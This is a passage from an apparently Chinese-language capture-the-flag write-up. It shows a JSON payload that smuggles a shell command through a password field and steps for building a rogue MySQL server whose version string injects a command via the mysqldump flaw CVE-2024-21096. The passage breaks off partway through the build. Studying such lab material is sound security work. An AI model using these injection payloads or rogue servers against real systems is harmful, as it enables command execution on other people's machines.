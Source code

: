 Payload

```JSON
{"remote_host":"127.0.0.1","remote_port":"3306","remote_username":"root","remote_password":"123456;/writeflag;#","remote_database":"123","local_database":"123"}
```



访问/flag拿到flag



### Level 21096 HoneyPot_Revenge

[CVE-2024-21096 mysqldump命令注入漏洞简析 | Ec3o](https://tech.ec3o.fun/2024/10/25/Web-Vulnerability Reproduction/CVE-2024-21096/)

出题人的博客有写过这个知识点

![image-20250219150418145](../assets/image-20250219150418145.png)



#### 编译恶意Mysql

安装编译依赖

```
sudo apt-get update
sudo apt-get install -y build-essential cmake bison libncurses5-dev libtirpc-dev libssl-dev pkg-config
wget https://dev.mysql.com/get/Downloads/MySQL-8.0/mysql-boost-8.0.34.tar.gz
tar -zxvf mysql-boost-8.0.34.tar.gz
cd mysql-8.0.34
```

修改模板文件/include/mysql_version.h.in

```
vim include/mysql_version.h.in
```



```
/* Copyright Abandoned 1996,1999 TCX DataKonsult AB & Monty Program KB
   & Detron HB, 1996, 1999-2004, 2007 MySQL AB.
   This file is public domain and comes with NO WARRANTY of any kind
*/

/* Version numbers for protocol & mysqld */

#ifndef _mysql_version_h
#define _mysql_version_h

#define PROTOCOL_VERSION            @PROTOCOL_VERSION@
#define MYSQL_SERVER_VERSION       "8.0.0-injection-test\n\\! /writeflag"
#define MYSQL_BASE_VERSION         "mysqld-8.0.34"
#define MYSQL_SERVER_SUFFIX_DEF    "@MYSQL_SERVER_SUFFIX@"
#define MYSQL_VERSION_ID            @MYSQL_VERSION_ID@
#define MYSQL_PORT                  @MYSQL_TCP_PORT@
#define MYSQL_ADMIN_PORT            @MYSQL_ADMIN_TCP_PORT@
#define MYSQL_PORT_DEFAULT          @MYSQL_TCP_PORT_DEFAULT@
#define MYSQL_UNIX_ADDR            "@MYSQL_UNIX_ADDR@"
#define MYSQL_CONFIG_NAME          "my"
#define MYSQL_PERSIST_CONFIG_NAME  "mysqld-auto"
#define MYSQL_COMPILATION_COMMENT  "@COMPILATION_COMMENT@"
#define MYSQL_COMPILATION_COMMENT_SERVER  "@COMPILATION_COMMENT_SERVER@"
#define LIBMYSQL_VERSION           "8.0.34-custom"
#define LIBMYSQL_VERSION_ID         @MYSQL_VERSION_ID@

```